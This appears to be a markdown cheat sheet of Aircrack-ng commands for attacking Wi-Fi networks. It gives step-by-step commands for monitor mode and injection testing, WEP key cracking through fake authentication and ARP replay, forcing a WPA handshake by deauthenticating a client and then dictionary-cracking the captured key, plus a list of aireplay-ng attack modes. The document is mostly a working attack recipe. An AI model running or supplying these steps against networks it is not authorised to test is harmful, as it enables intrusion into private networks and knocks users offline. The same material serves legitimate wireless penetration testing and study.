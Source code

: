 # Aircrack-ng :
   * [Injection test](https://www.aircrack-ng.org/doku.php?id=injection_test)
     * List wireless interfaces
       * **iwconfig**
     * Start the wireless interface in monitor mode on the specific AP channel
       *  **airmon-ng start wlan0 8**
     * Test the injection capability of the wireless device to the AP
       *  **aireplay-ng -9 -e teddy -a 00:14:6C:7E:40:80 wlan0mon**
   ## WEP crack
   * [Flowchart : Wep Cracking](http://www.aircrack-ng.org/img/simple-wep-crack.gif)
   * [Crack WEP (with client)](https://www.aircrack-ng.org/doku.php?id=simple_wep_crack) (fake authentication combined with ARP request replay technique)
    
     * List wireless interfaces
       * **iwconfig**
     * Start the wireless interface in monitor mode on the specific AP channel
       *  **airmon-ng start wlan0**
     * Show available AP
       * **airodump-ng wlan0mon**
     * Start airodump-ng to capture the IVs
       * **airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w output wlan0mon**
     * Use aireplay-ng to do a fake authentication with the access point (To associate with an access point)
       * **aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0mon**
     * Start aireplay-ng in ARP request replay mode to inject packets
       * **aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0mon**
     * Run aircrack-ng to crack key using the IVs collected
       * **aircrack-ng -b 00:14:6C:7E:40:80 output*.cap**

   * [Crack WEP (without client)](https://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_with_no_clients)

  # WAP crack
  
   * Crack WPA/WPA2 pre-shared key
     * Start airodump-ng to collect authentication handshake
       * **airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk wlan0mon**
     * Use aireplay-ng to deauthenticate the wireless client
       * **aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0mon**
     * Run aircrack-ng to crack the pre-shared key
       * **aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk*.cap**

  # WPS crack pin

   * [The upper data block shows the access points found](https://www.aircrack-ng.org/doku.php?id=newbie_guide)

      Name | Description
      ------------ | -------------
      **BSSID**   |	The MAC address of the AP|
      **PWR**     |	Signal strength. Some drivers don't report it|
      **Beacons** |	Number of beacon frames received. If you don't have a signal strength you can estimate it by the number of beacons: the more beacons, the better the signal quality|
      **Data** 	|Number of data frames received|
      **CH** 	    |Channel the AP is operating on|
      **MB**      |	Speed or AP Mode. 11 is pure 802.11b, 54 pure 802.11g. Values between are a mixture|
      **ENC**     |	Encryption: OPN: no encryption, WEP: WEP encryption, WPA: WPA or WPA2 encryption, WEP?: WEP or WPA (don't know yet)|
      **ESSID**   |	The network name. Sometimes hidden |

   * [The lower data block shows the clients found](https://www.aircrack-ng.org/doku.php?id=newbie_guide) 

      Name | Description
      ------------ | -------------
      | **BSSID**   | The MAC of the AP this client is associated to |
      | **STATION** | The MAC of the client itself |
      | **PWR**     | Signal strength. Some drivers don't report it  |
      | **Packets** | Number of data frames received  |
      | **Probes**  | Network names (ESSIDs) this client has probed |

   * [different attacks](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)

     * **--deauth count** : deauthenticate 1 or all stations (-0)
     * **--fakeauth delay** : fake authentication with AP (-1)
     * **--interactive** : interactive frame selection (-2)
     * **--arpreplay** : standard ARP-request replay (-3)
     * **--chopchop** : decrypt/chopchop WEP packet (-4)
     * **--fragment** : generates valid keystream (-5)
     * **--caffe-latte** : query a client for new IVs (-6)
     * **--cfrag** : fragments against a client (-7)
     * **--test** : tests injection and quality (-9)
     
     
